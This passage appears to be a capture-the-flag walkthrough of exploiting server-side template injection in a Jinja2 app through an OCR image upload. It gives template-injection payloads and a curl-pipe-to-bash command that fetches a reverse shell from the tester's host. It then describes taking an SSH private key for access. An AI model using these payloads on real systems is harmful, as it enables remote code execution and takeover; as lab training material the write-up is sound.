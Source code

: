 Following the methodology from PayloadsAllTheThings, I will try the next payload which works and returns the value 49 which is 7x7.  

<img width="125" alt="image" src="https://user-images.githubusercontent.com/114961392/204169190-da4717ee-6eb3-4753-92be-50c682021c10.png">

We will try the next payload **{{7*'7'}}** which works too so the server is most likely using the Jinja2 template engine. Now that we know the template engine, we can try some exploits.  

<img width="126" alt="image" src="https://user-images.githubusercontent.com/114961392/204170495-d6e50a85-1892-4077-b437-bd8a2aa3c08f.png">

Looking under the Jinja2 section in PayloadsAllTheThings, we will try payload **{{ cycler.__init__.__globals__.os.popen('id').read() }}**.  
Before we continue, it is worth noting that the fonts played a huge part in getting the OCR to understand the text. My first few attempts produced errors within the application as it could not read the text.  
I found that the font, **FreeMono** in KolourPaint, worked without any errors and produced the result: 

<img width="303" alt="image" src="https://user-images.githubusercontent.com/114961392/204171146-e17185ac-4454-4fa5-94af-7a55357cc53d.png">

Now let's craft a reverse shell payload, upload to the target through a python server and execute. I will create a file called x with the following reverse shell from revshells.com:

<img width="222" alt="image" src="https://user-images.githubusercontent.com/114961392/204171728-ddbdff76-1d4e-4ad3-a221-cf287e65b00e.png">

Then I will setup a python server in that directory so the target can connect and download the file. I will also set up a netcat listener to catch the returning connection.  
Let's craft the payload to **{{ cycler.__init__.__globals__.os.popen('curl http://10.10.14.18/x | bash').read() }}**, which uses curl to connect back to my machine, download the reverse shell, then my netcat listener should catch the connection.  

<img width="325" alt="image" src="https://user-images.githubusercontent.com/114961392/204172438-ce0365c4-5607-4d9e-a898-ddedc4891f33.png">

<img width="404" alt="image" src="https://user-images.githubusercontent.com/114961392/204172497-140e753e-2949-44bd-91fd-8b041026a998.png">

This works and now we have a reverse shell with user **svc_acc**! I will use the normal technique for upgrading the terminal:

<img width="401" alt="image" src="https://user-images.githubusercontent.com/114961392/204173049-d3ece769-7a35-4d95-9cac-542f547b5bdb.png">

From here we can capture user flag:  

<img width="218" alt="image" src="https://user-images.githubusercontent.com/114961392/204173145-e837fe51-4ea4-4c9d-9aab-7d4820bbf6b3.png">

### Privilege Escalation

There is also an **.ssh** folder with an **id_rsa** file so let's copy that and use it to SSH into the machine for a more stable connection. Remember to set permissions of **id_rsa** file to chmod 400.  

<img width="331" alt="image" src="https://user-images.githubusercontent.com/114961392/204173714-293232c4-9d62-4650-b8a0-9bacd0693f7d.png">

<img width="184" alt="image" src="https://user-images.githubusercontent.com/114961392/204173899-dd49caf5-701d-43c6-bddb-4b24ebb81056.png">
